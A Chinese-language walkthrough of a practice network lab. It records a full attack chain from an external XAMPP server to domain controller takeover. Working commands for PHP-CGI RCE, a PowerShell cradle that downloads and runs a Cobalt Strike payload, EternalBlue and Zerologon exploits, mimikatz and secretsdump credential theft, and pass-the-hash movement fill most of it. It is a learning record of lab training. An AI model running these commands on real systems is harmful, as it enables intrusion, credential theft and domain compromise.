



# 小迪VPC1内网打靶全流程记录

> 难度：初中级 | 考核内容：从外网打到内网域，拿下所有靶场权限

---

## 目录

- [靶场环境搭建](#靶场环境搭建)
- [外网打点 —— Win2012入口机](#外网打点--win2012入口机)
  - [信息收集](#信息收集)
  - [CVE-2024-4577 PHP CGI RCE](#cve-2024-4577-php-cgi-rce)
  - [CS上线](#cs上线)
- [内网横向 —— 2网段](#内网横向--2网段)
  - [内网信息收集](#内网信息收集)
  - [MS17-010打Win7](#ms17-010打win7)
  - [CS MSF联动原理](#cs-msf联动原理)
  - [Win7上线CS](#win7上线cs)
  - [横向到Win10](#横向到win10)
- [内网横向 —— 3网段（Weblogic）](#内网横向--3网段weblogic)
  - [发现新网段](#发现新网段)
  - [Weblogic弱口令+CVE-2020-2551](#weblogic弱口令cve-2020-2551)
  - [内存马上线CS](#内存马上线cs)
- [内网横向 —— 10网段（域环境）](#内网横向--10网段域环境)
  - [域控识别](#域控识别)
  - [Zerologon拿域控](#zerologon拿域控)
  - [secretsdump导出所有Hash](#secretsdump导出所有hash)
  - [横向到WEB服务器](#横向到web服务器)
  - [CS PTH上线所有机器](#cs-pth上线所有机器)
- [总结](#总结)

---

## 靶场环境搭建


**VMware网卡配置：**

- vmware8/NAT 对应 192.168.139.0 网段
- vmware2 对应 192.168.2.0 网段
- vmware3 对应 192.168.3.0 网段
- vmware10 对应 192.168.10.0 网段


靶场包含以下虚拟机：

**Windows Server 2012**


**Windows 7**


**Windows 10**


**Windows Server 2012 R2（Weblogic 单机）**


**Windows Server 2012-WEB**


**Windows Server 2016-AD-2016**


需要把自己主机上的网卡 2、3、10 全部禁用，确保主机与内网不能通讯。（仅主机模式下虚拟机之间不能互通，但只能和本机通讯，所以需要禁用。）


**开启各服务：**

Windows Server 2012 R2（Weblogic 单机）开启 Weblogic 服务：

Weblogic 安装目录：`C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain`（运行 `startWebLogic.cmd`）

访问 `http://192.168.3.133:7001/` 确认服务正常启动。


Windows Server 2012 开启 XAMPP：

```bash
cd C:\xampp
xampp-control.exe
```

启动 Apache。


环境准备好了，开始打。

---

## 外网打点 —— Win2012入口机

### 信息收集

访问 `http://192.168.139.130`：


启动成功，看到 XAMPP 的默认页面。

一般情况下，拿到一个目标我都会先用插件看一下有没有 CMS 版本号或者系统信息，有没有公开的漏洞之类的。然后找一些目录接口，用目录扫描工具，或者在 JS 代码里面找，JS 代码里面也有可能包含一些泄露的信息。还有就是通过抓包看数据包里面有什么泄露的信息，或者通过更改数据包来实现其他效果。

用 Wappalyzer 插件：


已知信息：Apache、PHP、**XAMPP 8.2.12**、Windows Server。XAMPP 是一个集成环境，除了网站本身还带了很多其他组件和路径。

跑 dirsearch：

```bash
dirsearch -u http://192.168.139.130 -x 404,503,403
```


发现 `/phpinfo.php`：


**PHP Version 8.2.12**

还发现 `/cgi-bin/printenv.pl`，里面泄露了不少信息：


整理一下泄露的关键信息：
- Windows 系统
- Apache 2.4.58
- PHP 8.2.12
- **CGI 模式运行**（GATEWAY_INTERFACE=CGI/1.1）
- 网站根目录 `C:/xampp/htdocs`

看到这里，Windows + XAMPP + PHP CGI 模式，版本是 8.2.12，立刻去搜 PHP CGI Windows 近期 CVE。

### CVE-2024-4577 PHP CGI RCE


版本完全符合，CVE-2024-4577 是 PHP CGI 模式下的远程代码执行漏洞。

EXP：

```bash
POST /php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 192.168.139.130

<?php die("Te"."sT");?>
```

先用 `die("Te"."sT")` 验证一下能不能执行：


成功执行 PHP 命令，再换成 whoami：

```php
<?php system("whoami"); ?>
```


可以正常 RCE，但有一堆乱码。改成：

```php
<?php die(system("whoami")); ?>
```


输出干净多了，而且权限是 `administrator`，直接最高权限，爽。

### CS上线

下一步反弹 shell，上 CS。

在 Kali 启动 teamserver：

```bash
cd cobalt_strike_4.7/
./teamserver 192.168.139.128 123456
```


client 连接：


**创建监听器：**

- 名字：kali
- HTTP 地址：点右边的 + 号，添加 `192.168.139.128`
- HTTP 端口（上线）：改成 5566（别用 80，容易冲突）
- HTTP 地址（Stager）：已经有了，不用动


**关于 CS 的 Payload 类型补充：**

- **Beacon HTTP/HTTPS**：最常用，目标机器通过 HTTP/HTTPS 回连你的 CS，适合大多数场景
- **Foreign HTTP/HTTPS**：转给其他 C2 用的，比如把 CS 的 beacon 转给 MSF
- 其他的都是和协议有关的通讯方式

**生成 PowerShell payload：**

Attacks → Scripted Web Delivery (S)


复制命令：

```bash
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.139.128:81/a'))"
```

把这条命令塞进 RCE 的请求里执行：

```php
<?php die(system('powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\'http://192.168.139.128:81/a\'))"')); ?>
```

PowerShell 在执行的时候，HTTP 请求一直挂着等响应，Yakit 那边超时了：


但目标机器已经去执行命令、连回 CS 了，所以 CS 上线了：


第一台机器拿下：
- IP：192.168.139.130
- 权限：Administrator *（星号说明是高权限）
- 机器名：WIN-3F3NJQQR88K

改一下 sleep 时间，让 beacon 实时响应，不用等心跳周期。

---

## 内网横向 —— 2网段

### 内网信息收集

先确认一下是不是域内环境：

```bash
shell net time /domain
```


返回"找不到域控制器"，确认不在域里，WORKGROUP。

```bash
shell systeminfo
```


- 域：WORKGROUP
- **双网卡确认：192.168.139.130 + 192.168.2.140**

```bash
shell ipconfig
```


发现内网网卡 `192.168.2.140`，疑似内网，准备横向移动。

端口扫描之前，可以先用 arp 缓存看看有没有现成的内网信息：

```bash
shell arp -a
```


arp 缓存里 192.168.2.x 段只有网关 192.168.2.254，说明这台机器最近没跟内网其他机器通信过，缓存是空的，只能扫了。

用 CS 自带的端口扫描：


`192.168.2.140` 就是已经拿下的这台机器本身，新目标只有一台：**192.168.2.128**，445 端口开着。

（其实这里 2 网段不止这一台，另外一台没有开，如果扫到多台的话就需要一个一个测了）


445 是 SMB 服务（文件共享、Windows 网络通信），443 才是 HTTPS。445 有很多漏洞都是通过这个端口打的，比如永恒之蓝 MS17-010。

**先建代理，让 Kali 能访问内网：**

CS beacon 里建 SOCKS 代理：

```bash
socks 27836
```


Kali 设置 proxychains：

```bash
vi /etc/proxychains4.conf
# 最后一行设置
socks4 127.0.0.1 27836
```


vi 基本操作备忘：进入编辑模式按 `i`，退出编辑模式按 `Esc`，保存退出输入 `:wq`。nano 更简单，`Ctrl+O` 保存，`Ctrl+X` 退出。

测试代理是否正常：

```bash
proxychains4 nmap -sT -Pn -p 445 192.168.2.128
```


没有问题，流量走向：

```bash
Kali → SOCKS代理(127.0.0.1:27836) → 192.168.2.140 → 192.168.2.128
```

### MS17-010打Win7

用 MSF 探测一下目标有没有 MS17-010 漏洞：

```bash
msfconsole
use auxiliary/scanner/smb/smb_ms17_010
set rhosts 192.168.2.128
# 这里用到的是 MSF 自带的代理，如果直接用 proxychains4 msf 可能会不稳定
set proxies socks4:127.0.0.1:27836
run
```


漏洞存在！

但问题来了——MSF 在 Kali 上，通过 SOCKS 代理连上了 2 网段，但 2 网段的机器是不能直接回连到 Kali 上的 MSF 的。

这里有个思路要想清楚：MS17-010 打成功之后，目标机器要**反弹 shell 回来**，它会连哪个 IP？

它在 192.168.2.x 内网，它连不到 Kali 192.168.139.128，只能连到 192.168.2.140。

所以需要在 192.168.2.140 上起一个监听，让 MSF 的 payload 反弹到 192.168.2.140，再转发回 Kali 的 MSF 上。

**流量思路：Kali 上的 MSF 打内网，需要用 SOCKS 才能送达；内网不能直接反弹到 Kali，所以让它反弹到有权限的跳板机上，再通过跳板机传给 Kali。**

### CS MSF联动原理

这里就需要 CS 和 MSF 联动。

**MSF 起 handler：**

```bash
use exploit/multi/handler
# 注意这里默认是 x86 的，x64 的不行，CS 里的 spawn 不支持 x64
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 7777
# -j 是 job 的意思，让这个 handler 在后台运行，不占用当前终端
exploit -j
```

可以用 `jobs` 查看是否在运行：


**CS 建 Foreign HTTP 监听器：**


- 名字：msf
- HTTP 地址（Stager）：192.168.139.128（Kali IP）
- HTTP 端口（Stager）：7777

在 beacon 上执行：

```bash
spawn msf
```


MSF 那边收到了：


**spawn 的作用是**——让当前已有的 beacon 执行一个新的 payload，上线到另一个监听器。

```bash
已有的 CS beacon → 执行新 payload → 连到 MSF 的 handler → MSF 得到 session
```

CS 会生成一个新的 payload 给目标主机，目标主机通过这个 payload 连接到 CS 上的 7777 端口，然后 CS 再把这个 7777 端口的流量转发到 MSF 上监听的 7777 端口，这样 MSF 上就会产生一个新的会话。

查看 MSF 已有的会话：

```bash
sessions
```


进入会话，添加内网路由：

```bash
sessions -i 4
run post/multi/manage/autoroute
```

它会自动识别目标机器的网卡信息，把 192.168.2.0/24 这个内网段的路由加进来。等下访问 192.168.2.x 这个内网段会自动走这条路由。

```bash
MSF → 通过 session 4(192.168.139.130) → 192.168.2.x 内网
```

退回 MSF：

```bash
background
```

可以用 `route print` 查看当前 MSF 的路由表：


**为什么要转发到 MSF 上？** 因为 MSF 上有直接可以利用的永恒之蓝的 EXP，CS 上没有，CS 自带的插件好像也没有，只有检测的模块。

现在开始打 MS17-010：

```bash
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_http
set rhosts 192.168.2.128
set lhost 192.168.2.140
set lport 8888
run
```


经过等待，成功取得会话！

**补充说明：** 如果自己额外设置了反向上线的监听端口，`set lport 8888` 时会显示端口冲突：


需要设置 `set DisablePayloadHandler true` 再重新跑。

**踩坑记录：** 靶场并不会每次都能正常运行，有时候需要重启。内网 IP 可能会改变（DHCP 动态分配），这会导致做实验时比较麻烦。

为了避免这个问题，可以给虚拟机固定静态 IP：

控制面板 >> 网络和控制中心 >> 更改适配器设置（网络连接）>> 找到对应的网卡右键属性


双击 IPv4：


固定 IP 地址和子网掩码即可：


**大坑记录：** 之前因为改过 CS 的文件导致有点 bug（不是专业人士还是不要乱改的好），导致 MS17-010 一直不能回连上 MSF，查了一上午不知道什么原因，最后用新的 CS 服务端文件测试就能直接打通了。

教训：**环境问题比技术问题更难排查**，以后遇到怎么打都不通的时候，先检查工具本身是否正常。

**MS17-010 流量总结：**



### Win7上线CS

有了 MSF 的 session，接下来需要把权限转回 CS 接管，因为 CS 图形化更方便管理。

但是，2 网段是内网段，如果转发上线的话，它不能直接连接到 Kali 上的 CS 服务端，直接用 MSF 的模块还需要搞端口转发比较麻烦。

所以这里用 CS 的转发上线，图形化操作比较简单：

选中已攻陷的跳板机：


建立转发上线的监听器，监听地址填入**内网目标主机能访问的 IP**（即跳板机在内网中的 IP，192.168.2.140）：


生成适配转发监听器的 Stageless 载荷，选择 Windows 可执行程序（Stageless）：

选择 Stageless 格式是因为它是**无阶段载荷**，一次性将完整 Beacon 写入目标主机，无需额外下载阶段代码，更适合内网受限环境。

这个模式可以选择刚刚的监听器


配合刚刚生成的监听器：


生成放到 Kali 上，然后在 MSF 的 Win7 会话里上传并执行：

```bash
session 2
upload /home/kali/beacon.exe c:\\wrold.exe
execute -f c:\\wrold.exe
```


成功上线，是 System 权限的：


**流量图：**



指定内网的后门文件访问的是跳板机的 2 网段，这样可以正常通讯，然后 CS 会自己处理流量转发与 CS 服务器联通，实现内网上线。（跳板机不能去除，内网需要通过跳板机才能流量通讯。）



### 横向到Win10

另外一个 2 网段的内网机器：192.168.2.129


这个 IP 也有 445 端口，用 MSF 扫一下有没有 MS17-010：

```bash
use auxiliary/scanner/smb/smb_ms17_010
set rhosts 192.168.2.129
run
```


并没有。再看一下端口信息和系统版本：


**SMB 端口说明：**
- **445**：直接走 TCP 的 SMB（现代 Windows 主要用这个）
- **139**：走 NetBIOS 的 SMB（老版本）
- **135**：RPC 端口，SMB 相关服务会用到

看到 135/139/445 同时开放，基本可以判断是 Windows 机器且开启了文件共享/SMB 服务。

用 MSF 里的 smb_version 模块识别系统版本：

```bash
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.2.129
run
```


Windows 10 Pro，`authentication domain:DESKTOP-EV5SIKM`，这是工作组名字，不是域名，说明这台机器也不在域里。

这里有两个内网段机器了，我们已经获得了其中一个的高权限 , 接下来应该试试横向移动，试试用已有的凭据去碰撞其他机器。

根据系统版本等关系，抓取的密码格式也不同：
- **明文密码**：直接用账号密码登录
- **NTLM Hash**：可以用 PTH（Pass The Hash）攻击，不需要明文密码

**PTH vs 密码喷射：**
- 密码喷射（Password Spraying）：用明文密码去尝试登录
- PTH（Pass The Hash）：用 NTLM Hash 直接认证，不需要明文密码

**PTH 常用工具的区别：**
- **psexec**：通过 SMB 445 端口，上传一个服务到目标机器执行，需要 admin 权限，会留下日志，噪音大
- **wmiexec**：通过 WMI 协议（135 端口），不上传文件，相对隐蔽，不会创建服务
- **smbexec**：也是走 SMB，但方式不同，通过创建临时服务执行命令
- **atexec**：通过任务计划执行命令

实战中会根据目标开放的端口和防火墙规则来选择，比如 445 被封了就用 WMI，WMI 也被封了就用其他方式。

利用 CS 自带功能抓取一下 Hash 密码和明文密码，两台主机都抓一下：


总共只找到了三组，全部都是 Hash 值，没有明文密码：


需要先在 2.129 上建立 socks 代理

然后确保 /etc/proxychains4.conf 写入的是 

```bash
socks4 127.0.0.1 27836
```

先用 CME 做 PTH 攻击，安装：

```bash
apt install crackmapexec -y
```

运行：

```bash
proxychains4 crackmapexec smb 192.168.2.129 -u Administrator xiaodi857 Guest -H 53bd9892cea6f1d9ffa8ac587ba3cba6 b460df8d4e10e2b83231c2f48f6757e2 31d6cfe0d16ae931b73c59d7e0c089c0
```


结果就是 `STATUS_LOGON_FAILURE`，全部失败了。

重新扫描一下全端口

```bash
portscan 192.168.2.129 1-65535 arp 1024
```

结果就是没啥能用的

扫一下 Win7 的目录，看有没有有价值的软件：

```bash
shell dir "C:\Program Files"
```


发现 **PremiumSoft**（Navicat 的开发商）和 **Colasoft**。Navicat 会**保存数据库连接密码**，可以从注册表里提取，这些密码很可能就是连接其他机器数据库用的。

小迪是用这种方式抓取的：


我用其他插件试了试也不行：


虚拟机里的 Navicat 说因为硬件切换原因需要重新注册，不知道是不是这个原因才抓不到。


**为什么 System 权限抓不到明文密码？**

之前是用 System 权限直接抓取，用 mimikatz 抓明文密码是抓取不到的：


需要降权。这里最简单的方法就是注入一个 Administrator 权限的进程：


然后再次抓取，就能抓到明文密码了：


**原理：** mimikatz 抓明文密码是从 `lsass.exe` 进程的内存里读取的，lsass 里存的是**当前登录用户**的凭据。

- System 权限 = 系统账户，不是真实登录用户，lsass 里没有 Administrator 的明文密码
- Administrator 权限 = 真实用户登录的 session，lsass 里才有它的凭据缓存

降级到 Administrator 之后，相当于以 Administrator 身份运行，lsass 里才有对应的凭据。

用抓到的明文密码 `xiaodi` 试试 Win10：

```bash
proxychains4 crackmapexec smb 192.168.2.129 -u Administrator -p xiaodi -x "whoami"
```


**Pwn3d！密码正确！**

SMB 认证走的是 Windows 的账号体系，不是单独的 SMB 账号。用户名 = Windows 本地账号，密码 = 这个 Windows 账号的登录密码，SMB 只是协议。

开始横向移动，在 CS 里找到目标列表，选择需要移动的主机，选择一种执行命令的方式（比如 psexec）：


然后在这个界面里，域里的内容经过测试可以不改也可以删掉，两种方式都能正常上线。

监听器和会话有两种方式能让这台主机上线，我现在的方式是通过第一台跳板机与目标主机建立连接，监听器和会话都选择连接到跳板机上的：


这种方式可以正常上线，属于反向连接，因为跳板机是没有防火墙的。

通过连接的拓扑图可以看到，所有的机器都是通过反向连接连接到跳板机上的（因为试验所以产生了很多相同的机器，不过不影响）：


通过首页的拓扑图，我们可以看到 2.128 是有防火墙的，如果 2.129（目标主机）需要通过 2.128 上线，只能通过正向上线，反向上线会被拦截。

这里同样测试一下第二种方式上线，重新建立一个监听器，选择的是 TCP（正向的监听器）：


横向移动选择正向的监听器，会话需要选择 2.128 的主机，这样 2.128 的主机才能主动去连接目标机器的 9876 端口上线（域里的内容也能不改）：


再次查看会话拓扑图，发现不再是反向连接，而是出现了一个正向连接的主机：


至此第三台主机权限已经获取了！

然后把第三台的密码也抓一下，hash 和明文都要，同样试试降权到 Administrator 再用 mimikatz 抓一遍。

---

## 内网横向 —— 3网段（Weblogic）

### 发现新网段

查看 ipconfig 发现了新的 3 网段：


先进行一个简单的端口扫描，发现 3.133 新机器：


开了 5985，这是 **WinRM（Windows Remote Management）** 端口，可以用 PowerShell 远程管理。

用 MSF 扫一下版本：

```bash
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.3.133
run
```


什么信息都没有返回，疑似有防火墙。

依旧 socks 加 proxychains

用 WinRM 协议尝试用之前的凭据登录：


不行。把抓取的密码全都 PTH 试试：


全都不行。

重新扫一下端口，看看有没有其他服务：

```bash
portscan 192.168.3.133 80,443,7001,7002,8080,8443,8888,9090 arp 1024
```

开了 7001 端口！


7001 是 **Weblogic** 的默认端口。

### Weblogic弱口令+CVE-2020-2551

用本机代理插件配置一下，IP 填 `192.168.139.128`（Kali 的 IP，因为 CS 服务端在 Kali 上），端口 2222：


访问 Weblogic 管理控制台 `http://192.168.3.133:7001/console`：


Weblogic 12.1.3.0.0，版本信息直接暴露。

有两个方向：弱口令 和 漏洞利用。先试弱口令，Weblogic 默认账号密码：`weblogic/weblogic`、`weblogic/weblogic123`、`weblogic/Oracle@123`。

`weblogic/weblogic123` 竟然登录成功了！


接下来可以通过上传 war 包或者版本的反序列化漏洞。直接在 Kali 里找一下漏洞：

```bash
searchsploit weblogic 12.1.3
```


看看 MSF 有没有直接利用的：

```bash
search weblogic 12.1.3
```


试试 `weblogic_admin_handle_rce`：

```bash
use exploit/multi/http/weblogic_admin_handle_rce
set rhosts 192.168.3.133
set rport 7001
set lhost 192.168.139.128
set lport 4444
set proxies socks4:127.0.0.1:2222
set ReverseAllowProxy true
# target 3 是 Windows Command
set target 3
show options
run
```


确定了漏洞存在，但是没有回连过来。因为 SOCKS 代理只能支持我们去访问这个内网，但是内网不能直接回连到 Kali 上。比较麻烦换个方法 。

换个方法，用 Proxifier 配置代理，然后用本机上的 Weblogic 利用工具。

随便找了一个工具：

`url >> http://192.168.3.133:7001/`


```bash
[+] 存在：CVE_2020_2551_ECHO漏洞，返回信息：weblogic\administrator
```

CVE-2020-2551 是 Weblogic IIOP 协议反序列化漏洞，通过 T3/IIOP 协议发送恶意的序列化对象，不需要登录认证，可以直接 RCE。

先测试网络连通性，执行命令：

```bash
ping 192.168.3.128
```


可以 ping 通，Weblogic（192.168.3.133）能连到 Win10（192.168.3.128）。

### 内存马上线CS

应该采用反向上线的方式，因为这里的命令终端不太方便，先上个内存马：


成功，用哥斯拉连接一下：


成功进入：


接下来就是生成后门文件上线了。3 网段的需要与 Win10 才能通讯，在 CS 上的 Win10 上设置转发上线：


再利用这个监听器生成后门 exe 文件：


上传后门文件：


运行文件，成功上线！


通过密码抓取又找到一个明文密码 `Admin12345`：


端口扫描发现新的 10 网段 IP：


**内存问题：** 因为电脑内存比较小，只能把 Win10 的机器关了再做实验了（Win7 可以直接关闭，但是 Win10 需要回连 Kali，不能直接关）。但是这样的话 3 网段就不能通讯了，为了继续下面的实验，决定给 Kali 加一个 3 网段的虚拟网卡，然后关掉 Win10，再次上线的过程就跳过了。


---

## 内网横向 —— 10网段（域环境）

### 域控识别

依旧密码抓取和进行简单的端口扫描：

```bash
portscan 192.168.10.0-192.168.10.255 1-1024,3389,5000-6000 arp 1024
```


发现两台新机器：

**192.168.10.10：**
- 端口 88（Kerberos）、389（LDAP）、464、593、636、53（DNS）
- 这些都是**域控制器（DC）**的特征端口！

**192.168.10.12：**
- 端口 135/139/445/5985
- 这应该是 **SQL Server / WEB 服务器**

建 SOCKS 代理访问 10 网段：

```bash
socks 3333
```

先试试密码喷射：

```bash
proxychains4 crackmapexec smb 192.168.10.10 192.168.10.12 -u Administrator -p xiaodi Admin12345 -H 53bd9892cea6f1d9ffa8ac587ba3cba6 0b17b318cd59bb4e90f5a528437481a9 ccef208c6485269c20db2cad21734fe7
```

结果就是两个ip都没有成功的：


看一下 10.10 的信息：

```bash
proxychains4 crackmapexec smb 192.168.10.10
```


关键信息：
- 机器名：**DC（疑似域控）**
- 域名：**xiaodi.org**
- 系统：**Windows Server 2016**

看到 DC 这个机器名，加上 88/389/53 这些端口，基本可以确认是域控了。

### Zerologon拿域控

搜索 Zerologon 漏洞脚本：

```bash
searchsploit Zerologon
```

复制脚本出来使用：

```bash
searchsploit -m windows/remote/49071.py
```


查看脚本需要什么参数。先 check 一下：

```bash
proxychains4 python3 49071.py -do check -target DC -ip 192.168.10.10
```


脚本有语法错误，换一个更可靠的 Zerologon 脚本：

```bash
git clone https://github.com/dirkjanm/CVE-2020-1472
cd CVE-2020-1472
pip install impacket --break-system-packages
proxychains4 python3 cve-2020-1472-exploit.py DC$ 192.168.10.10
```

（`DC$` 是域控制器的**机器账号**，不是用户账号。Windows 里每台机器都有一个机器账号，格式是 `机器名$`，比如普通用户账号是 Administrator，机器账号是 `DC$`、`WIN-3F3NJQQR88K$` 这种。）


**Exploit complete！域控拿下了！**

Zerologon 成功把 DC$ 的密码置空了！

**Zerologon（CVE-2020-1472）原理：**

这是 2020 年微软 Netlogon 协议的严重漏洞，CVSS 评分 10 分满分。

Netlogon 协议在认证过程中有一个加密缺陷——它用了一个有问题的 AES-CFB8 加密模式，导致有 1/256 的概率用全零的 ClientChallenge 就能通过认证验证。攻击者不断重试（平均 256 次），就能在**不知道任何密码**的情况下，冒充域控完成认证，然后把域控的机器账号密码**强制置空**。

**打的是机器账号还是用户账号？**

打的是**域控的机器账号（DC$）**，不是普通用户账号。**域控**才有效 **只有域控才有 NTDS.dit**，如果打的是域内其他机器（不是域控）：

```bash
Zerologon 不起作用
因为那台机器没有 Netlogon 服务
也没有存储域用户 Hash 的 NTDS.dit
```

**普通用户账号有没有影响？**

普通用户账号（本地账号，不在域里的）**没有影响**，因为：

```bash
Zerologon 只影响域控的机器账号
本地账号的密码存在本机的 SAM 数据库里
域账号的密码存在域控的 NTDS.dit 里
```

但机器账号置空之后，可以用它去请求域控的权限，进而用 secretsdump 导出所有域用户的 Hash，包括域管理员 Administrator 的 Hash。

整个流程是：`DC$密码置空 → 用DC$免密登录 → 导出所有域账号Hash → PTH拿域控`

**适用范围：** 受影响的系统包括 Windows Server 2008 R2、2012/2012 R2、2016、2019，打了微软 2020 年 8 月的补丁（KB4557222）之后就不受影响了。Zerologon 必须打域控才有效，打域内其他机器无效（那些机器没有 Netlogon 服务，也没有 NTDS.dit）。

### secretsdump导出所有Hash

```bash
proxychains4 impacket-secretsdump 'xiaodi.org/DC$@192.168.10.10' -just-dc -no-pass
```


成功拿到全部账户的 Hash！

最重要的两个：
- **域管 Administrator Hash**：`a402bea39d0f49b50ea1941120780ee3`
- **krbtgt Hash**：`2da377c47a7129b60215445e8e726d65`（可以做黄金票据）

用域管 Hash PTH 直接登录域控，验证权限：

```bash
proxychains4 impacket-wmiexec -hashes :a402bea39d0f49b50ea1941120780ee3 xiaodi.org/administrator@192.168.10.10
```


成功拿下 shell！

```bash
whoami
net user /domain
```


- 权限：`xdorg\administrator` 域管权限 ✅
- 域用户：Administrator、boss、webadmin、webuser、krbtgt 等

域控完全拿下，整个域已经沦陷了。

### 横向到WEB服务器

还有 192.168.10.12（WEB 服务器）没拿，域管 Hash 打不进去，报信任关系失败，说明 WEB 机器的本地 Administrator 密码跟域管不一样。

把之前收集的全部 Hash 试一遍，加上 `--local-auth` 参数强制本地认证：

```bash
proxychains4 crackmapexec smb 192.168.10.12 -u administrator -H 53bd9892cea6f1d9ffa8ac587ba3cba6 0b17b318cd59bb4e90f5a528437481a9 ccef208c6485269c20db2cad21734fe7 a402bea39d0f49b50ea1941120780ee3 --local-auth
```


`ccef208c6485269c20db2cad21734fe7` 就是 WEB 机器本地 Administrator 的 Hash，这个 Hash 是从 Weblogic 机器上抓到的！

```bash
proxychains4 impacket-wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.10.12
```


成功拿下另一台域内机器！

### CS PTH上线所有机器

知道了密码可以直接用 CS 的 PTH 上线，但 10 网段有防火墙阻止进入的流量，需要用正向连接。

先建立一个正向的监听器（Beacon TCP），监听器名称叫 10：


**10.10 域控上线：**

```bash
pth xiaodi.org\administrator a402bea39d0f49b50ea1941120780ee3
jump psexec 192.168.10.10 10
```

**10.12 WEB机器上线：**

```bash
pth administrator ccef208c6485269c20db2cad21734fe7
jump psexec 192.168.10.12 10
```


这两台也成功上线 CS！

---

## 总结

**最终 CS 上线清单：**

| 机器 | IP | 漏洞/方式 |
|------|-----|----------|
| Win2012 外网入口 | 192.168.139.130 | CVE-2024-4577 PHP CGI RCE |
| Win7 内网 | 192.168.2.128 | MS17-010 永恒之蓝 |
| Win10 内网 | 192.168.2.129 | mimikatz 明文密码 + 密码喷射 |
| Weblogic 服务器 | 192.168.3.133 | CVE-2020-2551 IIOP 反序列化 |
| 域控 DC | 192.168.10.10 | CVE-2020-1472 Zerologon |
| WEB 服务器 | 192.168.10.12 | PTH（Hash 来自 Weblogic 机器） |

**整体攻击链路：**

```bash
外网RCE(PHP CGI) 
  → 上线CS 
  → 发现内网2网段
  → 建SOCKS代理 + CS/MSF联动打MS17-010 
  → Win7拿下 
  → 抓密码 + mimikatz降权抓明文 
  → Win10密码喷射拿下
  → 发现3网段
  → Weblogic弱口令+CVE-2020-2551内存马
  → 抓密码发现Admin12345
  → 发现10网段域环境
  → Zerologon直接拿域控
  → secretsdump导出全域Hash
  → PTH横向WEB服务器
  → 全部拿下
```

**这个靶场最大的几个收获：**

1. 代理隧道的流量思路要想清楚，特别是反弹方向和访问方向是两回事，SOCKS 只解决了"去"的问题，"回"的问题还要单独处理。

2. CS 和 MSF 联动是很实用的技巧，CS 负责管理 beacon，MSF 负责利用特定漏洞，两边配合效率很高。

3. mimikatz 抓明文密码需要在用户权限下抓，System 权限反而抓不到，这个坑踩得很深。

4. 域控一旦拿下就是游戏结束，Zerologon 这种满分漏洞的威力确实恐怖，不需要任何凭据直接打穿。

5. **环境问题比技术问题更难排查**，遇到莫名其妙打不通的时候，先检查工具本身有没有问题。

---

*文章记录了从外网到内网域的完整渗透过程，包含大量踩坑记录，希望对看到的人有帮助。*
